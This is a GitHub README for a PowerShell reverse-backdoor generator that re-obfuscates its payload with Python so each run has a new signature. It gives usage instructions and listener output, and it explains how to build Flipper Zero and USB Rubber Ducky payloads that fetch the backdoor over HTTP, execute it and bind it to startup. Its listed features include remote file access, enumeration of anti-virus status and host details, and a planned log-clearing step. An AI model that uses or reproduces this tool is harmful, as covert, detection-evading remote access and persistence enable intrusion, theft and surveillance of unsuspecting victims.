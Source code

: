 # powershell-backdoor
Reverse backdoor written in Powershell and obfuscated with Python. Allowing the backdoor to have a new signature after every run. Also can generate auto run scripts for Flipper Zero and USB Rubber Ducky.
```
usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY] [--flipper FLIPPER] [--ducky]
                 [--server-port SERVER_PORT] [--payload PAYLOAD] [--list--payloads] [-k KEYBOARD] [-L] [-H]

Powershell Backdoor Generator

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.X.XX)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero (includes EOL conversion) (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8080)
  --payload PAYLOAD     USB Rubber Ducky/Flipper Zero backdoor payload to execute
  --list--payloads      List all available payloads
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
  -A, --actually-listen
                        Just listen for any backdoor connections
  -H, --listen-and-host
                        Just listen for any backdoor connections and host the backdoor directory
```
# Quick Links
* [Preview](#preview)
* [Features](#features)
* [Standard Backdoor](#standard-backdoor)
* [Flipper Zero Backdoor](#flipper-zero-backdoor)
* [USB Rubber Ducky Backdoor](#usb-rubber-ducky-backdoor)
* [Thanks](#thanks)
* [To Do](#to-do)
* [Output of 5 Obfuscations](#Output-of-5-obfuscations/Runs)

## Preview
![preview](/core/images/preview.PNG)
<br>

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Play wav files from a URL
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Enumerate OS Information
* Find BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Install Choco (https://chocolatey.org/)
* Checks for common pentesting software installed

## Standard backdoor
``` bash
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

### Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

# Bad USB/ USB Rubber Ducky attacks
When using any of these attacks you will be opening up a HTTP server hosting the backdoor. Once the backdoor is retrieved the HTTP server will be shutdown.

## Payloads
   * Execute -- Execute the backdoor 
   * BindAndExecute -- Place the backdoor in the users temp directory, bind the backdoor to startup and then execute it. (Requires Admin)
## Flipper Zero Backdoor
Below will generate a file called powershell_backdoor.txt, which when triggered on the Flipper will fetch the backdoor from your computer over HTTP and execute it.
```
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --flipper powershell_backdoor --payload execute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
Below is a tutorial on how to generate an inject.bin file for the Hak5 USB Rubber ducky
```
 C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --ducky --payload BindAndExecute
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar created by ![midnitesnake](https://github.com/midnitesnake).

## To Do 
* Pull Recent RDP connections
* Change Wallpaper from URL
* Find Writeable Directories
* Clear Logs

## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```
